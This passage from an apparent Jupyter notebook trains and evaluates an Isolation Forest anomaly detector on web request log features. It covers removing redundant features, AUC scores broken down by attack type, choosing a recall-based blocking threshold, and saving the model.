sns.heatmap(corr, cmap='coolwarm', center=0, annot=False)
plt.title('Feature correlation heatmap')
plt.show()



### Redundant Features

In [58]:
# print only strongly correlated pairs 

print("Strongly correlated pairs (redundant features):")
print("")
high_corr = corr.abs().unstack().sort_values(ascending=False)
high_corr = high_corr[(high_corr < 1.0) & (high_corr > 0.85)]
print(high_corr.drop_duplicates())


Strongly correlated pairs (redundant features):

total_requests_per_ip        success_requests_per_ip        0.997926
scanner_threat_score         client_errors_per_ip           0.992531
url_length                   sensitive_endpoint_attack      0.965178
high_rate_automated_traffic  is_automated_client            0.943486
total_size_per_ip            unique_urls_per_ip             0.942747
is_automated_client          automated_requests_per_ip      0.936011
is_mobile                    os_family_Android              0.900471
automated_requests_per_ip    high_rate_automated_traffic    0.886173
is_mobile                    os_family_Windows              0.881669
dtype: float64


### Reduce Redundancy

In [59]:
drop_redundant = [
    'success_requests_per_ip',
    'client_errors_per_ip',
    'url_length',
    'is_automated_client',
    'total_size_per_ip',
    'is_mobile'
]
df_clean = df_clean.drop(columns=drop_redundant)

### Drop Constant Columns

`Zero variance means every row has the exact same value ML model like Isolation Forest can't isolate anything on a column where nothing ever differs, so these columns are pure dead weight`

In [60]:
# find constant columns(variance=0)
constant_col = [col for col in numeric_df.columns if numeric_df[col].nunique() <= 1]

df_clean = df_clean.drop(columns=constant_col)

In [61]:
# Check remaining columns count
print(f"Remaining numeric columns: {numeric_df.shape[1]}")

# Re-check unique values per column
unique_counts = numeric_df.nunique()
print(unique_counts[unique_counts <= 1]) # Should be empty Series()

Remaining numeric columns: 71
is_weekend           1
is_night_time        1
is_unknown_method    1
method_PUT           1
method_PATCH         1
method_DELETE        1
method_CONNECT       1
method_TRACE         1
dtype: int64




In [62]:
numeric_df = df_clean.select_dtypes(include=['int64', 'float64', 'bool']).drop(columns=['label'], errors='ignore')

corr = numeric_df.corr()

plt.figure(figsize=(20, 16))
sns.heatmap(corr, cmap='coolwarm', center=0, annot=False)
plt.title('Feature correlation heatmap(after removing varience and redundancy)')
plt.show()



### Takeaway:
- **Bot Traffic Activity:** high_rate_automated_traffic shows a strong positive correlation with automated_requests_per_ip and is_bot_keyword.

- **Scanning & Threat Behavior:** scanner_threat_score strongly aligns with errors_per_ip_per_min and error_rate_per_ip.

- **Payload Structure:** path_length and number_of_query_parameters retain a healthy, moderate positive relationship without exceeding redundancy thresholds.

### Check Outliers









In [63]:
for feature in ['requests_per_sec', 'time_since_previous_request', 'unique_urls_per_ip', 'scanner_threat_score']:
    plt.figure(figsize=(6,4))
    sns.boxplot(x='label', y=feature, data=df_clean)
    plt.title(f'{feature} by label (0=benign, 1=anomaly)')
    plt.yscale('log')  # Anomaly features have huge scale differences, log helps visibility
    plt.show()

### Takeaways:
- **request_per_sec:** High request rate = Always Attack" is wrong assumption here.
- **time_since_previous_request:** Normal user send request randomly with different time gaps `High Variablity`. While `Low time-gap variability` is a clear signal of automatd loop/script.
- **unique_url_per_ip:** Normal users explore the whole website`High Unique URLs` while attackers visit only targeted pages`Low Unique URLs`. However unique urls with time window can give good insights.
- **scanner_threat_score:** Not clearly visible because of `Log Scale Limits`.



In [64]:
# On Linear scale
sns.boxplot(x='label', y='scanner_threat_score', data=df)
plt.title('Scanner Threat Score (Linear Scale)')
plt.show()

### Takeaway:
- **Normal Traffic (0):** High URL exploration + occasional broken link errors = Extreme Outlier Spikes.

* **Anomaly Traffic (1):** Targeted low-URL visits + continuous scanning errors = Consistently High Baseline Threat Score.

### Save cleaned data

In [65]:
df_clean.to_csv("../data/processed/processed_100k.csv")

---

## Model Training

In [66]:
from sklearn.model_selection import train_test_split

# seperate the columns

X = df_clean.drop(columns=['label' , 'type'])
y_label = df_clean['label']
y_type = df_clean['type']


X_train , X_test , y_train, y_test = train_test_split(X , y_label , test_size = 0.2 ,
                                                      random_state=42 , 
                                                      stratify=y_label)




In [67]:
from sklearn.ensemble import IsolationForest

model = IsolationForest(n_estimators=200 , 
                        contamination= 'auto',
                        random_state=42
                        )

model.fit(X_train)

,"n_estimators n_estimators: int, default=100The number of base estimators in the ensemble.",200
,"random_state random_state: int, RandomState instance or None, default=NoneControls the pseudo-randomness of the selection of the featureand split values for each branching step and each tree in the forest.Pass an int for reproducible results across multiple function calls.See :term:`Glossary <random_state>`.",42
,"max_samples max_samples: ""auto"", int or float, default=""auto""The number of samples to draw from X to train each base estimator.- If int, then draw `max_samples` samples.- If float, then draw `max_samples * X.shape[0]` samples.- If ""auto"", then `max_samples=min(256, n_samples)`.If max_samples is larger than the number of samples provided,all samples will be used for all trees (no sampling).",'auto'
,"contamination contamination: 'auto' or float, default='auto'The amount of contamination of the data set, i.e. the proportionof outliers in the data set. Used when fitting to define the thresholdon the scores of the samples.- If 'auto', the threshold is determined as in the original paper.- If float, the contamination should be in the range (0, 0.5]... versionchanged:: 0.22 The default value of ``contamination`` changed from 0.1 to ``'auto'``.",'auto'
,"max_features max_features: int or float, default=1.0The number of features to draw from X to train each base estimator.- If int, then draw `max_features` features.- If float, then draw `max(1, int(max_features * n_features_in_))` features.Note: using a float number less than 1.0 or integer less than number offeatures will enable feature subsampling and leads to a longer runtime.",1.0
,"bootstrap bootstrap: bool, default=FalseIf True, individual trees are fit on random subsets of the trainingdata sampled with replacement. If False, sampling without replacementis performed.",False
,"n_jobs n_jobs: int, default=NoneThe number of jobs to run in parallel for :meth:`fit`. ``None`` means 1unless in a :obj:`joblib.parallel_backend` context. ``-1`` means usingall processors. See :term:`Glossary <n_jobs>` for more details.",None
,"verbose verbose: int, default=0Controls the verbosity of the tree building process.",0
,"warm_start warm_start: bool, default=FalseWhen set to ``True``, reuse the solution of the previous call to fitand add more estimators to the ensemble, otherwise, just fit a wholenew forest. See :term:`the Glossary <warm_start>`... versionadded:: 0.21",False
Name,Type,Value
estimator_ estimator_: :class:`~sklearn.tree.ExtraTreeRegressor` instanceThe child estimator template used to create the collection offitted sub-estimators... versionadded:: 1.2 `base_estimator_` was renamed to `estimator_`.,ExtraTreeRegressor,ExtraTreeRegr...ndom_state=42)


In [68]:
# predictions

raw_pred = model.predict(X_test)
y_pred = pd.Series(raw_pred , index=X_test.index).map({1:0 , -1:1})

In [69]:
# evaluation metrics
from sklearn.metrics import classification_report , roc_auc_score , confusion_matrix
print("classification_report:")
print(classification_report(y_test , y_pred))
print("-----------------------")
print("roc_auc_score:")
print(roc_auc_score(y_test , y_pred))
print("-----------------------")
print("confusion matrix")
print(confusion_matrix(y_test , y_pred))

classification_report:
              precision    recall  f1-score   support

           0       1.00      0.92      0.96     19990
           1       0.01      0.80      0.01        10

    accuracy                           0.92     20000
   macro avg       0.50      0.86      0.48     20000
weighted avg       1.00      0.92      0.96     20000

-----------------------
roc_auc_score:
0.8609304652326164
-----------------------
confusion matrix
[[18428  1562]
 [    2     8]]


#### Use Continues Anomaly Scores

In [70]:
# decision_function: higher = more normal, lower = more anomalous
scores = -1*model.decision_function(X_test)


print(roc_auc_score(y_test , scores))

0.9419159579789895


### Evaluate on the full dataset, not just the 20% test split

In [71]:
model_experiment = IsolationForest(n_estimators=200 , 
                        contamination= 'auto',
                        random_state=42
                        )

model_experiment.fit(X)  # fit on everything
scores_full = -model_experiment.decision_function(X)
print(roc_auc_score(y_label, scores_full))

0.9471404926316342


#### Break performance down by `type`

In [72]:
results = pd.DataFrame({'type': y_type, 'score': scores_full, 'label': y_label})
print(results[results['label']==1].sort_values('score', ascending=False))

           type     score  label
8966        rce  0.128050      1
16855       rce  0.127794      1
18566       rce  0.122843      1
236         bot  0.121544      1
23565       rce  0.116948      1
56500       bot  0.115430      1
7362        bot  0.106923      1
13331       bot  0.106923      1
7448        bot  0.104568      1
19963       bot  0.104099      1
29598       bot  0.101171      1
11715       bot  0.099834      1
10481  scanning  0.098674      1
55669       bot  0.097257      1
10483  scanning  0.097047      1
1305        bot  0.092617      1
30693       bot  0.092241      1
23529  scanning  0.092191      1
23516  scanning  0.088324      1
4410        bot  0.085953      1
2798        bot  0.085086      1
60118       bot  0.084971      1
22695       bot  0.064671      1
238         bot  0.042286      1
56550       bot  0.036472      1
7377        bot  0.036155      1
13334       bot  0.036155      1
15494       bot  0.036071      1
19965       bot  0.030632      1
7451      

#### Run the `rce`+`scanning`-only AUC

In [73]:
# Redefine target: only rce + scanning count as "true security anomaly"
y_security = df_clean['type'].isin(['rce', 'scanning']).astype(int)
print(roc_auc_score(y_security, scores_full))

0.9949233438675094


### Correct evaluation - repeated held-out splits

In [74]:
from sklearn.model_selection import StratifiedShuffleSplit
from sklearn.ensemble import IsolationForest
from sklearn.metrics import roc_auc_score
import numpy as np

def evaluate_repeated(X, y, n_splits=20, test_size=0.3):
    aucs = []
    sss = StratifiedShuffleSplit(n_splits=n_splits, test_size=test_size, random_state=42)

    for train_idx, test_idx in sss.split(X, y):
        X_train, X_test = X.iloc[train_idx], X.iloc[test_idx]
        y_test = y.iloc[test_idx]

        model = IsolationForest(n_estimators=200, contamination='auto', random_state=42)
        model.fit(X_train)          # trained ONLY on train rows

        scores = -model.decision_function(X_test)   # evaluated ONLY on unseen test rows
        aucs.append(roc_auc_score(y_test, scores))

    return np.array(aucs)

# overall anomaly definition
aucs_overall = evaluate_repeated(X, y_label)
print(f"Overall AUC — mean: {aucs_overall.mean():.3f}, std: {aucs_overall.std():.3f}")

# security-only definition (rce + scanning)
y_security = df_clean['type'].isin(['rce', 'scanning']).astype(int)
aucs_security = evaluate_repeated(X, y_security)
print(f"Security-only AUC — mean: {aucs_security.mean():.3f}, std: {aucs_security.std():.3f}")

Overall AUC — mean: 0.947, std: 0.020
Security-only AUC — mean: 0.992, std: 0.003


#### Chosen Threshold

In [81]:
model = IsolationForest(n_estimators=200, contamination='auto', random_state=42)
model.fit(X_train)

y_test_security = df_clean.loc[X_test.index, 'type'].isin(['rce', 'scanning']).astype(int)
scores_test = -model.decision_function(X_test)

from sklearn.metrics import precision_recall_curve
precision, recall, thresholds = precision_recall_curve(y_test_security, scores_test)

target_recall = 0.95
valid_idx = [i for i, r in enumerate(recall) if r > target_recall]
chosen_threshold = thresholds[valid_idx[-1]]
print("Chosen Threshold:")

print(chosen_threshold)

Chosen Threshold:
0.10079958960436952


### Save the Model

In [76]:
import joblib

joblib.dump(
    {
        'model': model,
        'threshold': chosen_threshold,
        'feature_columns': list(X.columns),
        'size_threshold': size_threshold 
    },
    '../models/isolation_forest_v1.joblib'
)
print("Model saved successfully")

Model saved successfully




In [89]:
import matplotlib.pyplot as plt
import numpy as np

# 1. Precision-Recall Curve Values
precision, recall, thresholds = precision_recall_curve(y_test_security, scores_test)

# 2. Plotting Setup
plt.figure(figsize=(6, 3))

# Thresholds array lengths precision/recall se 1 choti hoti hai, is liye match kar rahe hain
plt.plot(thresholds, recall[:-1], label='Recall (Attack Detection Rate)', color='red', linewidth=4)
plt.plot(thresholds, precision[:-1], label='Precision (Accuracy of Blocks)', color='blue', linewidth=2)

# 3. Highlight Chosen Target Recall (e.g., 0.95)
target_recall = 0.90
valid_indices = [i for i, r in enumerate(recall) if r >= target_recall]
chosen_threshold = thresholds[valid_indices[-1]]

# Graph Par Indicator Lines
plt.axvline(x=chosen_threshold, color='green', linestyle='--', label=f'Chosen Threshold ({chosen_threshold:.4f})')
plt.axhline(y=target_recall, color='orange', linestyle=':', label=f'Target Recall ({target_recall*100:.0f}%)')

plt.title('Threshold vs Precision & Recall')
plt.xlabel('Anomaly Score Threshold (Lower = More Aggressive Blocking)')
plt.ylabel('Score (0.0 to 1.0)')
plt.legend(loc='lower left')
plt.grid(True, alpha=0.3)
plt.show()



In [92]:
import numpy as np
import matplotlib.pyplot as plt
from sklearn.metrics import precision_recall_curve, roc_curve, auc

# 1. Calculations
# Inverted scores: higher = more anomalous
scores = -model.decision_function(X_test)
y_true = y_test_security  # 1 for RCE/Scanning, 0 for normal

# Precision-Recall & Thresholds
precision, recall, thresholds = precision_recall_curve(y_true, scores)

# ROC Curve & AUC Score
fpr, tpr, roc_thresholds = roc_curve(y_true, scores)
roc_auc = auc(fpr, tpr)

# Request Counts per Threshold
# Har threshold par kitni total requests block hongi (score >= threshold)
total_blocked_counts = [np.sum(scores >= t) for t in thresholds]
true_attacks_blocked = [np.sum((scores >= t) & (y_true == 1)) for t in thresholds]

# Target Recall Line (95%)
target_recall = 0.95
valid_idx = [i for i, r in enumerate(recall) if r >= target_recall]
chosen_thresh = thresholds[valid_idx[-1]]
chosen_blocked = np.sum(scores >= chosen_thresh)
chosen_attacks = np.sum((scores >= chosen_thresh) & (y_true == 1))

# --- PLOTTING ---
fig, axes = plt.subplots(1, 2, figsize=(16, 8))

# -------------------------------------------------------------
# GRAPH 1: Request Block Count vs Threshold
# -------------------------------------------------------------
axes[0].plot(thresholds, total_blocked_counts, label='Total Blocked Requests (Flagged)', color='purple', linewidth=2)
axes[0].plot(thresholds, true_attacks_blocked, label='Actual Security Attacks Blocked', color='red', linestyle='--', linewidth=2)

# Chosen Threshold Highlight
axes[0].axvline(x=chosen_thresh, color='green', linestyle=':', label=f'Chosen Threshold ({chosen_thresh:.4f})')
axes[0].scatter([chosen_thresh], [chosen_blocked], color='purple', s=80, zorder=5)
axes[0].annotate(f'Total Blocked: {chosen_blocked}\n(Attacks Catch: {chosen_attacks}/{np.sum(y_true==1)})',
                 xy=(chosen_thresh, chosen_blocked), xytext=(chosen_thresh + 0.02, chosen_blocked + 50),
                 arrowprops=dict(facecolor='black', shrink=0.05, width=1, headwidth=6))

axes[0].set_title('Total Flagged Requests vs Threshold')
axes[0].set_xlabel('Anomaly Score Threshold (Lower = More Requests Flagged)')
axes[0].set_ylabel('Number of Requests')
axes[0].legend()
axes[0].grid(True, alpha=0.3)

# -------------------------------------------------------------
# GRAPH 2: ROC-AUC Curve
# -------------------------------------------------------------
axes[1].plot(fpr, tpr, color='darkorange', lw=2, label=f'ROC Curve (AUC = {roc_auc:.4f})')
axes[1].plot([0, 1], [0, 1], color='navy', lw=2, linestyle='--', label='Random Guessing (AUC = 0.5)')

axes[1].set_title('Receiver Operating Characteristic (ROC) Curve')
axes[1].set_xlabel('False Positive Rate (Legitimate Traffic Blocked %)')
axes[1].set_ylabel('True Positive Rate / Recall (Attacks Blocked %)')
axes[1].legend(loc="lower right")
axes[1].grid(True, alpha=0.3)

plt.tight_layout()
plt.show()